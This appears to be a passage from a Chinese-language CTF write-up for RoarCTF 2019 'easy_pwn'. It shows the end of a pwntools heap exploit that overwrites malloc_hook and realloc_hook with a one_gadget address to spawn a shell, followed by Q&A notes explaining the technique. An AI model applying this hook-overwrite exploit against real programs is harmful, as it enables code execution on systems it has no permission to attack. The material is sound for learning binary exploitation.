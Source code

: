 ```python  
    free(6)
    add(0xd0) # 5
    payload = "a"*0x68 + p64(0x71) + p64(malloc_hook-0x23)
    payload += "b"*(0xd0-len(payload))
    edit(5,0xd0,payload)
    free(6)
    add(0x68) # 6
    add(0x68) # 7
    payload = "a"*0xb + p64(one_gadget) + p64(realloc+13)
    payload = payload.ljust(0x68,"\x00")
    edit(7,0x68,payload)
    add(0x10)

    p.interactive()
exp()
```  
问：不是距离malloc_hook-0x23吗，去掉chunk头，需要填充0x13，为什么填充0x13-8呢？  
答：realloc_hook在malloc_hook上方，我们将onegadget写入了realloc_hook中，将realloc写入了malloc_hook中，这样调用malloc时就相当于调用了malloc_hook，就相当于调用了realloc，就相当于调用了realloc_hook，就相当于调用了one_gadget  
![](easypwn1.png)  
问：一开始泄露地址时为什么free(1)之后又add(0x68)，main_arena+88就在chunk2中了？  
答：add(0x68)好像实质上是malloc了chunk2回来，具体不是很清楚，只是不断调试发现正好是这样的，就show了  
free掉1之后是这样的  
![](easypwn2.png)  
add回来之后长这样  
![](easypwn3.png)  
尝试性show了一下chunk2发现可以leak  
  
本来想着这个题还要用什么realloc，有点麻烦，所以想打free_hook的，但是看了看，free_hook更麻烦，还要写0x7f什么的，理解不了，不大会  
等学会了来打一下free_hook（挖坑待填）    
参考链接：  
https://blog.csdn.net/weixin_44145820/article/details/104839805  
https://nocbtm.github.io/2019/10/14/2019-RoarCTF-pwn-writeup  
https://binlep.github.io/2020/01/12/%E3%80%90WriteUp%E3%80%91RoarCTF%202019--Pwn%E9%A2%98%E8%A7%A3/  
https://www.cnblogs.com/luoleqi/p/12380696.html  
http://www.pwn4fun.com/pwn/buuctf-pwn-writeup-part2.html#roarctf2019easypwn  